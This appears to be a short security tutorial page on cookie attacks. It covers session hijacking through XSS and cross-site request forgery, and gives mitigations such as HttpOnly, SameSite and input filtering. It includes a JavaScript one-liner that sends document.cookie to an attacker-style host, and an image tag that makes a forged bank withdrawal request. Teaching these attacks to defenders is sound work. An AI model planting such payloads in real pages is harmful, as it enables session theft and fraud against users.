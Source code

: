 # Cookies Security

## Session hijacking and XSS

Cookies that identify a user and their authenticated session, when stolen, can lead to hijacking the authenticated user's session.

Cookies can be stolen by exploiting XSS vulnerability in the application with the following code:
```javascript
(new Image()).src = "http://www.cookie-monster.com/steal-cookie?cookie=" + document.cookie;
```

To mitigate this attack:
* use `HttpOnly` directive;
* filter the user input.

## Cross-site request forgery (CSRF)

Example of CSRF:
1. Someone includes an image that isn't really an image in an unfiltered chat of forum:
```html
<img src="http://bank.example.com/withdraw?account=bob&amount=10000&for=mallory">
```
2. This is a request to bank's server to withdraw money.
3. If you are logged into your bank account, your cookies are still valid and there is no confirmation of withdrawal, an money will be transferred.

To mitigate this attack:
* filter the user input;
* perform confirmation of any sensitive actions;
* use `sameSite=strict` and short lifetime for sensitive actions.
